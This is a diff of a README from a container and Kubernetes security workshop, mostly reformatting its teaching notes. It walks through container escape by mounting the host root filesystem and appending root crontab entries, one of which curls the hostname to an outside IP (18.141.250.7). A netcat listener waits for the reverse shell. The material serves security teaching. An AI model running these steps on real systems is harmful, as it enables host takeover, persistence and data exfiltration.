

Before and after one commit to aditya5573/demo1, a Markdown page: container-and-kubernetes-security/README.md, the part around one of its changes. Shown at 81% size. Drawn GitHub-style; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/container-and-kubernetes-security/README.md
+++ b/container-and-kubernetes-security/README.md
@@ -34,27 +38,46 @@ You can use tools like https://github.com/xmendez/wfuzz or simple bash scripts t
 
 Most popular username & password dump: https://github.com/danielmiessler/SecLists
 
+
 https://github.com/weaveworks/scope
 
+```bash
 apk add libcap
 capsh --print
+```
+
+```bash
 find / -name docker.sock
 apk add docker
+```
+
 We can run privileged containers, containers with hostpid, hostipc, etc. We can gain access to the host machine, run things around, run crypto miners silently in the background, and lot more. We can even leverage capablities like CAP_SYS_ADMIN, CAP_SYS_MODULE, CAP_SYS_RAWIO, CAP_NET_ADMIN, etc.
 
-You can also use tools like nsenter to create namespaces in linux or even hook into one of the parent processes running on the host & break out of the container
+You can also use tools like `nsenter` to create namespaces in linux or even hook into one of the parent processes running on the host & break out of the container
 
+```bash
 which nsenter
+```
+
 How to know if we are inside a container or on a host machine?
 
+```bash
 ls -l /var/lib/docker
+```
+
+```bash
 docker run --rm -it -v /:/abcd ubuntu bash
 # ls -l /abcd/var/lib/docker
 # hostname
+```
+
 Let's leverage the functionality of cronjob in linux to get a reverse shell. Few techniques to get a reverse shell are given here: https://highon.coffee/blog/reverse-shell-cheat-sheet/
 
-Reverse shell Reference: https://systemweakness.com/a-persistent-reverse-shell-on-macos-40fb65b3dacf?gi=70e6704f4f9e
 
+![Reverse shell](https://miro.medium.com/max/1400/1*CyVqkmA7wLYaippCGRXW5w.jpeg)
+Reference: https://systemweakness.com/a-persistent-reverse-shell-on-macos-40fb65b3dacf?gi=70e6704f4f9e
+
+```bash
 docker run --rm -it -v /:/abcd ubuntu bash
 # ls -l /abcd/var/lib/docker
 # hostname
@@ -62,32 +85,51 @@ docker run --rm -it -v /:/abcd ubuntu bash
 # chmod +x /abcd/tmp/run.sh
 # echo "*  *    * * *   root    bash /tmp/run.sh" >> /abcd/etc/crontab
 # echo '*  *    * * *   root    curl 18.141.250.7:8000/test/$(hostname)' >> /abcd/etc/crontab
-On 18.141.250.7, wait for incoming connection
+```
 
+On `18.141.250.7`, wait for incoming connection
+
+```bash
 nc -nlvp 8888
-Attack Mitre framework
-https://images.contentstack.io/v3/assets/blt300387d93dabf50e/blt79d91d9e7404f336/629d981961670f0fb5dd1161/MITTRE_ATTACK_Metric.png Reference: https://www.weave.works/blog/mitre-attack-matrix-for-kubernetes
+```
+
+### Attack Mitre framework
+
+![https://images.contentstack.io/v3/assets/blt300387d93dabf50e/blt79d91d9e7404f336/629d981961670f0fb5dd1161/MITTRE_ATTACK_Metric.png](https://images.contentstack.io/v3/assets/blt300387d93dabf50e/blt79d91d9e7404f336/629d981961670f0fb5dd1161/MITTRE_ATTACK_Metric.png)
+Reference: https://www.weave.works/blog/mitre-attack-matrix-for-kubernetes
 
 We cannot discuss all stages in one session. We will try to touch one topic from each category. But first we must learn about containers!
 
-Container?
+### Container?
+
 Isolation in the same system with unique namespaces.
 
-PID - Isolation of process ids
-User - Isolation of users & UIDs
-Mount - Isolation of mount points
-Net - Isolation of networking interfaces & environment
-UTS - Isolation of hostname
-IPC - Isolation of IPC traffic
-Cgroup - Isolation of cgroups (memory & cpu)
+* PID    - Isolation of process ids
+* User   - Isolation of users & UIDs
+* Mount  - Isolation of mount points
+* Net    - Isolation of networking interfaces & environment
+* UTS    - Isolation of hostname
+* IPC    - Isolation of IPC traffic
+* Cgroup - Isolation of cgroups (memory & cpu)
+
 https://github.com/rewanthtammana/containers-from-scratch/blob/master/main.go#L32
 
+```bash
 docker run --rm -it ubuntu bash
 # sleep 1d
+```
+
+```bash
 ps -ef | grep sleep 1d
 ls /proc/<PID>/ns
+```
+
 You can see the docker container namespaces! In real all the data, processes, etc are existing on the host machine.
 
+```bash
 docker run --name debugcontainer --rm -it ubuntu bash
 # echo "inside container" > file.txt
+```
+
+```bash
 docker inspect debugcontainer | grep -i upperdir
````
Also changed, not shown: other parts of container-and-kubernetes-security/README.md (+276 -67 lines).
